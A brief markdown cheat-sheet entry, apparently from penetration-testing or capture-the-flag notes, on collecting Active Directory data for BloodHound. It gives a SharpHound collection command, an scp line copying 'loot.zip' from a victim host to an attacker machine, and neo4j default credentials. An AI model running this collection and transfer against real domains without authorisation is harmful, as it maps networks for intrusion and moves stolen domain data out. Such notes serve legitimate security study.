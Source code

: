 ### collecting data (ingesting)

There are two different methods to ingest data for Bloodhound

1) Sharphound
2) Python script


---

### Sharphound

You will need control on a domain machine.

These commands will gather the .json files you need to run Bloodhound

`Sharphound.ps1`
`Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip`

transfer loot.zip to attacker machine

`scp -T victim@10.10.18.217:<file location> <attacker directory>`

---

### starting bloodhound

start neo4j first
`neo4j console` 

default creds - `neo4j:neo4j`

start `bloodhound`

you can drag and drop loot.zip

**side note: you can clear previous data under `database info` tab > clear db**

---

